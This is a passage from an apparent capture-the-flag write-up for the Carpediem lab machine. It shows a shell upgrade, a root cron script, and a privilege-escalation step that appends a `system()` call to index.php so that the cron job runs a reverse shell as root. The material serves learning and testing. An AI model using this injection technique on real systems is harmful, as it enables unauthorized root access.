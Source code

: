 There's no Python on this, so we have to use `script /dev/null -c bash` to upgrade our shell.

### Docker Root

There is a `heartbeat.sh` script within the `/opt` directory.&#x20;

```
www-data@90c7f522b842:/opt$ ls -la
total 12
drwxr-xr-x 1 root root 4096 Jun 23  2022 .
drwxr-xr-x 1 root root 4096 May 11 06:05 ..
-rwxr-xr-x 1 root root  510 Jun 23  2022 heartbeat.sh
```

Here's its contents:

{% code overflow="wrap" %}
```bash
#!/bin/bash
#Run a site availability check every 10 seconds via cron
checksum=($(/usr/bin/md5sum /var/www/html/backdrop/core/scripts/backdrop.sh))
if [[ $checksum != "70a121c0202a33567101e2330c069b34" ]]; then
        exit
fi
status=$(php /var/www/html/backdrop/core/scripts/backdrop.sh --root /var/www/html/backdrop https://localhost)
grep "Welcome to backdrop.carpediem.htb!" "$status"
if [[ "$?" != 0 ]]; then
        #something went wrong.  restoring from backup.
        cp /root/index.php /var/www/html/backdrop/index.php
fi
```
{% endcode %}

This script is being contunously run, and it seems to make run `backdrop.sh` using `php`. It also cehcks for the integrity of `backdrop.sh`, so we cannot change that script. Also, it seems to restore `index.php` file when something goes wrong.&#x20;

The rest of the command executed seems to execute the root page in PHP, which is `index.php`, of which I have control of. We can drop a simple `system('bash /tmp/shell');` into `index.php` to get another reverse shell as `root`.&#x20;

First, drop a reverse shell as `/tmp/shell.sh`, then append the `/var/www/html/backdrop/index.php` page with `system("bash /tmp/shell.sh");` and wait for execution.

<figure><img src="../../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>
